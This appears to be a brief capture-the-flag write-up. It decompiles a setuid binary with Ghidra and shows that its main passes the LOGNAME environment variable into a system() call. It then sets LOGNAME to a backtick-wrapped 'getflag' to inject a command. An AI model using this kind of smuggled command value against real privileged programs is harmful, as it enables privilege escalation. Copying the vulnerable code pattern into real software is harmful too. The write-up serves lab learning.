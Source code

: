 we can decompile the program with ghidra and get C file, inside it we can see this main:

int main(int argc,char **argv,char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

we can see we get the env variable LOGNAME, and this same variable is used to be print.
we need to change LOGNAME to permit to execute getflag, for this we need to use backticks:
export LOGNAME="\`getflag\`"